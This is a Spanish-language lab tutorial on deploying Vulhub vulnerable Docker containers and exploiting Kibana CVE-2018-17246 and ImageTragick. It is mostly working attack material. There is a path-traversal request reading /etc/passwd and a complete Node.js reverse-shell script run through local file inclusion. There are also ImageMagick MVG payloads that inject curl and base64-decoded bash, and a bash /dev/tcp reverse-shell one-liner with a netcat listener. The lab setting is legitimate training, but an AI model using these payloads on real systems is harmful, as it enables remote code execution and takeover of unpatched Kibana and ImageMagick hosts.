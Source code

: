 # Despliegue de máquinas vulnerables con Docker-Compose

Tags: #Docker #Comandos #Linux 

A continuación, os proporcionamos el enlace al proyecto de Github que estamos usando para esta clase:
-   **Vulhub**: [https://github.com/vulhub/vulhub](https://github.com/vulhub/vulhub)
Asimismo, por aquí os compartimos el enlace al recurso donde se nos ofrece el script en Javascript encargado de establecer la Reverse Shell:
-   **NodeJS Reverse Shell**: [https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell](https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell)

Desplegaremos una maquina Kibana con su vulnerabilidad 
* **Kibana** es una interfaz de usuario gratuita y abierta que permite visualizar los datos de ElasticSearch y navegar en el Elastic Stack
* **Elasticsearch** 
* **Elastic Stack**  

```bash 
❯ svn checkout \https://github.com/vulhub/vulhub/trunk/kibana/CVE-2018-17246   # Para clonar una subcarpeta de Github y en donde dice '/tree/master' quitarlo de la url y colocar **/trunk** y el resto de la url
❯ docker-compose up -d                      # Para poder desplegar el contenerdor una vez descargada
❯ docker port cve-2018-17246_kibana_1       # Miramos el puerto que esta usando para ese servicio en especifico
```

Web **localhost:5601** Para poder ver el servicio web de Kibana

```bash 
❯ curl  -s -X GET "\http://localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../etc/passwd"
	# X -> Es el metodo que queremos tramitar GET
	# s -> modo silence

❯ docker-compose logs                  # Para mirar los logs en Docker pero debes de estar dentro del contenedor 
❯ docker-compose exec kibana bash      # Para ingresar al Kibana
	❯ cd /tmp                         # Este dir tiene privilegios de lectura y escritura
	❯ nano reverse.js
		(function(){
		    var net = require("net"),
		        cp = require("child_process"),
		        sh = cp.spawn("/bin/sh", []);
		    var client = new net.Socket();
		    client.connect(443, "172.17.0.1", function(){
		        client.pipe(sh.stdin);
		        sh.stdout.pipe(client);
		        sh.stderr.pipe(client);
		    });
		    return /a/; // Prevents the Node.js application form crashing
		})();

# Con este archivo loque hacemos es que vamos a crear una ReverShell por un puerto y nuestra IP (172.17.0.1) pero seria la del 'docker0', despues solo nos pondriamos en escucha por Netcat en el puerto 443
❯ ifconfig docker0          # Miramos la IP de la interface docker0

❯ curl  -s -X GET "\http://localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../tmp/reverse.js"
❯ nc -nlvp 443              # Para ponernos en escucha por Netcat en espera de la revershell para Linux
```

****

Desplegaremos otra maquina llamada **ImageMagick** con su vulnerabilidad 
-   **Proyecto de Github**: [https://github.com/vulhub/vulhub/tree/master/imagemagick/imagetragick](https://github.com/vulhub/vulhub/tree/master/imagemagick/imagetragick)

Este proyecto se encarga de procesar contenido multimedia 
```bash 
❯ svn checkout \https://github.com/vulhub/vulhub/trunk/imagemagick/imagetragick # Para clonar una subcarpeta de Github y en donde dice '/tree/master' quitarlo de la url y colocar **/trunk** y el resto de la url
❯ docker-compose up -d                  # Para poder desplegar el contenerdor una vez descargada
❯ docker port imagetragick_web_1        # Miramos el puerto que esta usando para ese servicio en especifico y nos muestra el 8080
```

Web **localhost:8080** Para poder ver el servicio web de Imagetragick

Podemos usar BurpSuite con otro puerto para poder interceptar la comunicacion y asi en el campo de la extension del archivo a subir, modificarlo y ver que tipo de archivos acepta. Esto se haria con un ataque de fuuerza bruta en el Intruder y con una expresion regular en **Options > Grep-Match** podemos seleccionar **Add** y despues la expresion o el texto que queremos que nos haga match en la respuesta 

Podemos colocar este contenido en el archivo '.jpg' en Burpsuite y poder explotar la vulnerabilidad
```bash 
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?|curl "172.72.0.1/testingRCE")'
pop graphic-context
```

```bash 
❯ python3 -m http.server 80              # Nos montamos un servidor http 80
```

Ahora podemos hacer la ReverShell 
```bash
❯ nvim file.gif

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo tqergqerbash64revershell | base64 -d | bash`"||id " )'
pop graphic-context
```

Después del comando 'echo' colocaremos la ReverShell pero que fue codificada en base 64
```bash
❯ echo -n "/bin/bash -i >& /dev/tcp/172.72.0.1/4646 0>&1" | base64          # Nos regresara la Revershell codificada 
```
